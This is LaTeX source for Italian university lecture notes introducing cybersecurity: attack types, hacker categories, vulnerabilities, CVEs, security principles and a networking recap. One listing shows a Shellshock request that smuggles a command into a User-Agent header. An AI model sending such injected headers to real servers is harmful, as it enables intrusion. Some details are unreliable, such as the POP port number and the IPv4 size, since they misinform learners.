\documentclass[tikz]{report}

\usepackage[dvipsnames]{xcolor}
\usepackage{lmodern}
\usepackage[all]{xy}
\usepackage[english]{babel}
\usepackage[utf8]{inputenc}

\usepackage{amssymb}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage{amscd}
\usepackage{amsfonts}
\usepackage{mathrsfs}
\usepackage{mathtools}
\usepackage{mathabx}

\usepackage{pst-node}
\usepackage{tikz-cd}
\usepackage{tikz}
\usepackage{forest}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{float}
\usetikzlibrary{shadows,shapes.geometric}
\usetikzlibrary{calc}
\usepackage{enumerate}
\usepackage{times}
\usepackage[pdftex]{hyperref}
\usepackage[most]{tcolorbox}
\usepackage{titletoc}
\usepackage{moresize}

\usepackage{anyfontsize}


\usepackage{erewhon}
\usepackage{titlesec}
\usepackage{epigraph}% Pacchetti usati
\theoremstyle{plain}
\newtcbtheorem[number within=chapter]{prob}{\strut Esercizio}{
    enhanced,
    colframe=BlueViolet!75,
    colback=white,
    colbacktitle=BlueViolet!75,
    coltitle=white,
    boxed title style={},
    attach boxed title to top left={xshift=5mm,yshift*=-\tcboxedtitleheight/2},
    before skip=25pt plus 2pt,
    after skip=15pt plus 2pt
}{th}

\newtcbtheorem[number within=chapter]{teo}{\strut Teorema}{
    enhanced,
    colframe=BlueViolet!75,
    colback=white,
    colbacktitle=BlueViolet!75,
    coltitle=white,
    boxed title style={},
    attach boxed title to top left={xshift=5mm,yshift*=-\tcboxedtitleheight/2},
    before skip=25pt plus 2pt,
    after skip=15pt plus 2pt
}{th}

\newtcbtheorem[number within=chapter]{df}{\strut Definizione}{
    enhanced,
    colframe=BlueViolet!75,
    colback=white,
    colbacktitle=BlueViolet!75,
    coltitle=white,
    boxed title style={},
    attach boxed title to top left={xshift=5mm,yshift*=-\tcboxedtitleheight/2},
    before skip=25pt plus 2pt,
    after skip=15pt plus 2pt
}{th}

\newtcbtheorem[number within=chapter]{prop}{\strut Proposizione}{
    enhanced,
    colframe=BlueViolet!75,
    colback=white,
    colbacktitle=BlueViolet!75,
    coltitle=white,
    boxed title style={},
    attach boxed title to top left={xshift=5mm,yshift*=-\tcboxedtitleheight/2},
    before skip=25pt plus 2pt,
    after skip=15pt plus 2pt
}{th}

\newtcbtheorem[number within=chapter]{coro}{\strut Corollario}{
    enhanced,
    colframe=BlueViolet!75,
    colback=white,
    colbacktitle=BlueViolet!75,
    coltitle=white,
    boxed title style={},
    attach boxed title to top left={xshift=5mm,yshift*=-\tcboxedtitleheight/2},
    before skip=25pt plus 2pt,
    after skip=15pt plus 2pt
}{th}

\newtcbtheorem[number within=chapter]{lema}{\strut Lemma}{
    enhanced,
    colframe=BlueViolet!75,
    colback=white,
    colbacktitle=BlueViolet!75,
    coltitle=white,
    boxed title style={},
    attach boxed title to top left={xshift=5mm,yshift*=-\tcboxedtitleheight/2},
    before skip=25pt plus 2pt,
    after skip=15pt plus 2pt
}{th}

\theoremstyle{definition}
\newtheorem{ex}{Esempio}% Definizione strutture del teorema
\titleformat{\chapter}[block]%
        {\normalfont\scshape\HUGE}%
        {\hspace*{-70pt}\color{BlueViolet!75}\fontencoding{U}\fontfamily{eur}\fontseries{b}\fontsize{60}{80}\selectfont\thechapter\hspace{15pt}}{10pt}
        {}[\chapterdecoration]

\newcommand\chapterdecoration{%
\begin{tikzpicture}[remember picture,overlay,shorten >= -10pt]

\coordinate (aux1) at ([yshift=-15pt]current page.north east);
\coordinate (aux2) at ([yshift=-410pt]current page.north east);
\coordinate (aux3) at ([xshift=-4.5cm]current page.north east);
\coordinate (aux4) at ([yshift=-150pt]current page.north east);

\begin{scope}[BlueViolet!50,line width=12pt,rounded corners=12pt]
\draw
  (aux1) -- coordinate (a)
  ++(225:5) --
  ++(-45:5.1) coordinate (b);
\draw[shorten <= -10pt]
  (aux3) --
  (a) --
  (aux1);
\draw[opacity=0.6,BlueViolet,shorten <= -10pt]
  (b) --
  ++(225:2.2) --
  ++(-45:2.2);
\end{scope}
\draw[BlueViolet,line width=8pt,rounded corners=8pt,shorten <= -10pt]
  (aux4) --
  ++(225:0.8) --
  ++(-45:0.8);
\begin{scope}[BlueViolet!70,line width=6pt,rounded corners=8pt]
\draw[shorten <= -10pt]
  (aux2) --
  ++(225:3) coordinate[pos=0.45] (c) --
  ++(-45:3.1);
\draw
  (aux2) --
  (c) --
  ++(135:2.5) --
  ++(45:2.5) --
  ++(-45:2.5) coordinate[pos=0.3] (d);   
\draw 
  (d) -- +(45:1);
\end{scope}
\end{tikzpicture}%
}


\everymath{\displaystyle}

\setlength{\parindent}{0em}
\renewcommand{\baselinestretch}{1.5}

% não permite separação silábica
\sloppy
\hyphenpenalty=100000
% não permite linhas orfãs e viúvas no tex
\clubpenalty=10000
\widowpenalty=10000
\displaywidowpenalty=10000% Configurazione formattazione
\usepackage{verbatim}
\usepackage{algpseudocode}
\usepackage[shortlabels]{enumitem}
\newcommand{\frontpage}[5]{\begin{titlepage} 
    \pagecolor{BlueViolet}
    \color{white}
	\centering 
	
	\scshape 
	
	\vspace*{\baselineskip}

	
	\rule{\textwidth}{1.6pt}\vspace*{-\baselineskip}\vspace*{2pt} 
	\rule{\textwidth}{0.4pt} 
	
	\vspace{0.75\baselineskip} 
	
	{\LARGE #1} 
	
	\vspace{0.75\baselineskip}
	
	\rule{\textwidth}{0.4pt}\vspace*{-\baselineskip}\vspace{3.2pt}
	\rule{\textwidth}{1.6pt}
	
	\vspace{2\baselineskip}
	
	#2
	
	\vspace*{3\baselineskip}
	
	Author
	
	\vspace{0.5\baselineskip}
	
	{\scshape\Large #3}
	
	\vspace{0.5\baselineskip}
	
	\textit{#4}
	
	\vfill
	
	\vspace{0.3\baselineskip}
	
	#5

\end{titlepage}
\nopagecolor}% Definizione comandi
\titlecontents{chapter}[0pc]
{\addvspace{30pt}}%
{\begin{tikzpicture}[remember picture, overlay]%
\draw[fill=BlueViolet!80,draw=BlueViolet!80] (-4,-.2) rectangle (-0.5,.5);%
\pgftext[left,x=-3.6cm,y=0.2cm]{\color{white}\Large\sc\bfseries Chapter\                                             
\thecontentslabel};%
\end{tikzpicture}\color{BlueViolet!90}\large\sc\bfseries}
{\color{BlueViolet!90}\large\sc\bfseries}
{\color{BlueViolet!90}\;\titlerule\;\large\sc\bfseries Page \thecontentspage
\begin{tikzpicture}[remember picture, overlay]
\draw[fill=BlueViolet!70,draw=BlueViolet!70] (2pt,0) rectangle (6,0.1pt);
\end{tikzpicture}}%

\titlecontents{section}[2.4pc]
{\addvspace{1pt}}
{\contentslabel[\thecontentslabel]{2.4pc}}
{}
{\dotfill\small \thecontentspage}
[]
\titlecontents{subsection}[5pc]
{\addvspace{1pt}}
{\contentslabel[\thecontentslabel]{2.4pc}}
{}
{\dotfill\small \thecontentspage}
[]
\makeatletter

\renewcommand{\tableofcontents}{%
\chapter*{%
\vspace*{-20\p@}%
\begin{tikzpicture}[remember picture, overlay]%
\pgftext[right,x=14.84cm,y=0.2cm]{\color{BlueViolet!80}\Huge\sc\bfseries    
\contentsname};%
\draw[fill=BlueViolet!80,draw=BlueViolet!80] (13,-.75) rectangle (20,1);%
\clip (13,-.75) rectangle (20,1);
\pgftext[right,x=14.84cm,y=0.2cm]{\color{white}\Huge\sc\bfseries 
\contentsname};%
\end{tikzpicture}}%
\@starttoc{toc}}
\makeatother
\usepackage{courier} %% Sets font for listing as Courier.
\usepackage{listings, color}
\usepackage{listingsutf8}
\usepackage{graphicx}
\usepackage{wrapfig}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{
    tabsize = 3, %% set tab space width
    showstringspaces = false, %% prevent space marking in strings, string is defined as the text that is generally printed directly to the console
    numbers = left, %% display line numbers on the left
    commentstyle = \color{dkgreen}, %% set comment color
    keywordstyle = \color{blue}, %% set keyword color
    stringstyle = \color{red}, %% set string color
    rulecolor = \color{black}, %% set frame color to avoid being affected by text color
    basicstyle = \small \ttfamily, %% set listing font and size
    breaklines = true, %% enable line breaking
    numberstyle = \small,
}

\everymath{\displaystyle}

\begin{document}


%Style copertina
\frontpage
{Cybersecurity}
{}
{Niccolò Bellucci}
{ALMA MATER STUDIORUM - Università di Bologna}
{Anno Accademico 2022-2023}

%Style copertina 2
%\begin{titlepage}
\pagestyle{empty}

% Background color

\begin{tikzpicture}[remember picture,overlay]
\fill[BlueViolet] (current page.south west) rectangle (current page.north east);

% Background Hexagon
\begin{scope}
\foreach \i in {2.5,...,22}
{\node[rounded corners,BlueViolet!90,draw,regular polygon,regular polygon sides=6, minimum size=\i cm,ultra thick] at ($(current page.west)+(2.5,-5)$) {} ;}
\end{scope}

\foreach \i in {0.5,...,22}
{\node[rounded corners,BlueViolet!90,draw,regular polygon,regular polygon sides=6, minimum size=\i cm,ultra thick] at ($(current page.north west)+(2.5,0)$) {} ;}

\foreach \i in {0.5,...,22}
{\node[rounded corners,BlueViolet!98,draw,regular polygon,regular polygon sides=6, minimum size=\i cm,ultra thick] at ($(current page.north east)+(0,-9.5)$) {} ;}

\foreach \i in {21,...,6}
{\node[BlueViolet!95,rounded corners,draw,regular polygon,regular polygon sides=6, minimum size=\i cm,ultra thick] at ($(current page.south east)+(-0.2,-0.45)$) {} ;}

% Title of the Report
\node[left,BlueViolet!5,minimum width=0.625*\paperwidth,minimum height=3cm, rounded corners] at ($(current page.north east)+(0,-9.5)$){{\fontsize{25}{30} \selectfont \bfseries Title}};

% Subtitle 
\node[left,BlueViolet!10,minimum width=0.625*\paperwidth,minimum height=2cm, rounded corners] at ($(current page.north east)+(0,-11)$){{\textit{Subtitle}}};

% Author Name
\node[left,BlueViolet!5,minimum width=0.625*\paperwidth,minimum height=2cm, rounded corners] at ($(current page.north east)+(0,-13)$){{\Large \textsc{Author}}};

% Year
\node[rounded corners,fill=BlueViolet!95,text =BlueViolet!5,regular polygon,regular polygon sides=6, minimum size=2.5 cm,inner sep=0,ultra thick] at ($(current page.west)+(2.5,-5)$) {\LARGE \bfseries Year};

\end{tikzpicture}
\end{titlepage}

\thispagestyle{empty}
%Appunti sistemi operativi 
\pagenumbering{roman}
\tableofcontents

\pagenumbering{arabic}
\chapter{Introduzione al corso}
\begin{comment}% Inizio commento
\begin{df}[]{}{}
1111111111111111111
\end{df}

\begin{lema}[]{}{}
2222222222222222222
\end{lema}

\begin{prop}[]{}{}
33333333333333333333
\end{prop}

\begin{teo}[]{Teorema molto importante}{}
444444444444444444444
\end{teo}

\begin{proof}
55555555555555555555
\end{proof}

\begin{coro}[]{}{}
66666666666666666666
\end{coro}

\begin{ex}
77777777777777777777
\end{ex}
\end{comment}

\begin{comment}
\begin{figure}[h!]
    \centering
    \includegraphics[width=\linewidth]{Resources/systemview.png}
    \caption{}
\end{figure}
\end{comment}

\section{Cybersecurity}
La cybersecurity è un processo. È trasversale agli argomenti.
E.g. sicurezza delle reti, sicurezza industriale, sicurezza web, sicurezza degli applicativi,
sicurezza infrastrutturale, etc.

\section{Programma del corso}
\begin{itemize}
    \item Linux / Virtual Machines
    \item TOR Protocol / Dark Web / OSINT
    \item Radio / SDR
    \item Cifrari asimmetrici / simmetrici
    \item Password
    \item Sicurezza Wi-Fi
    \item Network Security
    \item Reverse engineering e pwning
\end{itemize}

\section{Classificazione tipologie di attacco}
Esistono vari tipi di attacchi:
\begin{itemize}
    \item Ransomware
    \item Malicious Code
    \item Desctructive Malware
    \item Rootkits and Botnets
    \item Trojan Horse
    \item Corrupted Softwarea Files
    \item Spyware
    \item Denial-of-Service attack
    \item Phishing
    \item Network Infrastructure Devices
    \item Website security
    \item Securing Wireless Networks
    \item Mobile Security
\end{itemize}

\section{Classificazione degli hacker}
Gli hacker classificati in tre modi diversi in base all'etica che hanno:
\begin{itemize}
    \item White Hat, sono quella categoria di hacker definiti "buoni"
    \item Black Hat, sono quella categoria di hacker definiti "cattivi"
    \item Grey Hat
\end{itemize}
 A loro volta i white hat sono divisi in ulteriori gruppi in base a ciò che svolgono nella catena:
 \begin{itemize}
     \item Red Team (attacco) - (e.g. penetration test)
     \item Blue Team (difesa) - (e.g. sysadmin)
 \end{itemize}
 Il mix di questi gruppi generano altri sotto gruppi.
 \begin{figure}[h!]
    \centering
    
\includegraphics[width=\linewidth]{res/hacker_classification.png}
    \caption{}
\end{figure}
Gli hacker che si limitano ad eseguire e/o modificare leggermente gli exploit senza conoscerne il funzionamento prendono il nome di skid, cript kiddie, generalmente bistrattati dalla community, ma costituiscono una minaccia alla stregua dei black hat. uno skid potrebbe lanciare un script un exploit in grado di generare un Denial of Service anche come danno collaterale.

Un azienda potrebbe richiedere un'analisi del proprio livello di sicurezza delle infrastrutture o di un suo prodotto, per effettuare ciò esistono due procedure:
\begin{itemize}
    \item Vulnerability Assessment, ci si occupa di fare un analisi delle possibili vulnerabilità presenti nel sistema;
    \item Penetration Test, ci si occupa di scoprire dove un hacker, sfruttando le vulnerabilità trovate, possa arrivare.
\end{itemize}

Gli attaccanti invece seguono uno specifico processo per effettuare i propri attacchi chiamato Kill Chain.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=\linewidth]{res/kill_chain.png}
    \caption{}
\end{figure}

\section{Cos'è una vulnerabilità}
In un sistema informatico una vulnerabilità è una debolezza che può essere sfruttata da una fonte terza per eseguire codice malevolo sulla macchina stessa.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=\textwidth]{res/weird_machine.png}
    \caption{}
\end{figure}
\section{Cos'è un exploit}
In un sistema informatico un exploit è un programma, uno script o un comando in grado di sfruttare una specifica vulnerabilità per ottenere un risultato, es. Installare un malware o ottenere una shell.
Un esempio di shellshock è quanto segue:
\begin{lstlisting}[language=bash,caption={bash version}]
#!/bin/bash
curl -H "User-Agent: () {:;} /bin/eject" https://example.com
\end{lstlisting}

\section{Common Vulnerability Exposure}
Un CVE (Common Vulnerability Exposure) è un programma di classificazione delle vulnerabilità, a molte vulnerabilità note è associato un identificativo CVE con il relativo livello di minaccia.
Uno \textit{\textbf{zero day}} è una vulnerabilità precedentemente ignota a chi è interessato alla sua risoluzione.

\chapter{Sicurezza}

\section{Principi di sicurezza}
La sicurezza informatica pone le fondamenta in due principi fondamentali:
\begin{itemize}
    \item A.A.A.
    \begin{itemize}
        \item Authentication (autenticazione), capacità di un sistema di garantire che un utente possa essere identificato tramite informazioni in suo possesso
        \item Authorization (autorizzazione), indica che cosa può effettuare un determinato utente.
        \item Accounting (accreditamento), la procedura con cui si assegnano determinate operazioni effettuate a un account
    \end{itemize}
    \item C.I.A.
    \begin{itemize}
        \item Confidentiality (confidenzialità), un messaggio si può definire confidenziale se può essere letto solo dal destinatario predesignato
        \item Integrity (integrità), un messaggio può essere considerato integro se il destinatario è certo del suo mittente
        \item Availability (disponibilità), la disponibilità è la capacità di un sistema di rispondere a determinate richieste
    \end{itemize}
    essendo concetti indipendenti tra di loro, per poter garantire la sicurezza del sistema essi dovranno essere presenti tutti e tre contemporaneamente
\end{itemize}
Una proprietà non presente in CIA (perché non rappresenta la sicurezza di un sistema ma un modo di eludere la proprietà di accounting) è \textbf{l'anonimato} online.
Navigando online non si è anonimi, in quanto si è soggetti a profilazione dagli ISP, cookie traccianti ecc.
\section{Riassunto di reti}
\subsection{Protocolo di rete}
Per identificare un server, o più in generale un dispositivo sulla rete, si una il protocollo IP (Internet Protocol), il più utilizzato è la versione 4, che prevede quattro quartine di 8 byte l'una per un totale di 32 bit. Il server per poter rispondere a una nostra richiesta in questo caso dovrà necessariamente conoscere il nostro indirizzo IP, ciò porta a non avere anonimato sulla rete.
\subsection{IP Spoofing}
Gli indirizzi IP per costruzione non sono protetti da una forma di integrità, questo significa che chiunque può cambiare il proprio indirizzo IP sorgente per fingersi qualcun altro.
\subsection{Routing}
Un pacchetto per essere consegnato al destinatario verrà fatto passare attraverso un infrastruttura di router i quali per definizione sono Man in the Middle, portandoci quindi a doverci fidare della rete se facciamo passare i dati in chiaro.
\subsection{TCP (Transmission Control Protocol)}
Il protocollo più utilizzato per stabilire una connessione con un server è il TCP, al livello superiore questo protocollo identifica i servizi oltre all'indirizzo IP anche mediante una porta. Alcune porte sono difinite dallo standard è si utilizzano per determinati servizi:
\begin{itemize}
    \item 22 - SSH
    \item 25 - SMTP (mail in uscita)
    \item 100 - POP (mail in entrata)
    \item 80 - HTTP
    \item 443 - HTTPS
\end{itemize}

\subsubsection{Attacco a TCP: Syn flooding}
\begin{wrapfigure}{r}{0.5\textwidth}
    \begin{center}
        
\includegraphics[width=0.5\textwidth]{res/3way-handshake.png}
    \end{center}
\end{wrapfigure}
